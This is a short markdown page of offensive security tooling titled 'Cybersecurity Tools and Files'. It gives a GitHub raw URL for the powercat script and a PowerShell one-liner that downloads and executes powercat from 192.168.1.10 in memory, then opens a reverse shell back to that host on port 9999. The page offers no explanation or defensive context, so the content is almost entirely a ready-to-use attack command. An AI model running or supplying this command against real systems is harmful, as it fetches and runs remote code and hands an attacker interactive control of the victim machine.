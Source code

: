 # Cybersecurity Tools and Files

PowerCat

```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```
